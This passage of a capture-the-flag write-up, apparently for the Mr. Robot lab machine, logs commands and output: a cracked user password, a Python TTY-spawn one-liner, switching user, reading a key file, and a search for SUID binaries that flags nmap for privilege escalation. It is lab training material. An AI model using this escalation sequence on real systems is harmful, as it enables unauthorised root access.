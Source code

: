 ```

```
I think even crackstation could find it!

`robot:[REDACTED]`

Now switch to robot and get that 2nd key

```
$ su robot
su: must be run from a terminal
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
cat key-2-of-3.txt
...
```

## privilege escalation

First step failed

```
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: [REDACTED]

Sorry, user robot may not run sudo on linux

```
Second step great success

```
find / -perm -u=s -type f 2>/dev/null
 
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

```
GTFObins say nmap is suspicious and therefore...
